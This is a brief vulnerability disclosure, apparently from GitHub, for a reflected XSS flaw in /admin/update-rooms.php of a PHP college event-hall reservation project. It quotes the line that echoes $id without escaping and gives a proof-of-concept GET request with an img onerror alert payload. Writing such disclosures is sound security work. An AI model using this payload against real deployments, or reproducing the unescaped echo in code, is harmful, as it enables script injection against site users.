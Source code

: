 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS update-rooms.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/update-rooms.php

## Code
```php
<a class="btn btn-secondary"  href='rooms.php?id=<?php echo $id; ?>'>Cancel</a>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/update-rooms.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")> HTTP/1.1
Host: [REDACTED]
```

## Screenshot

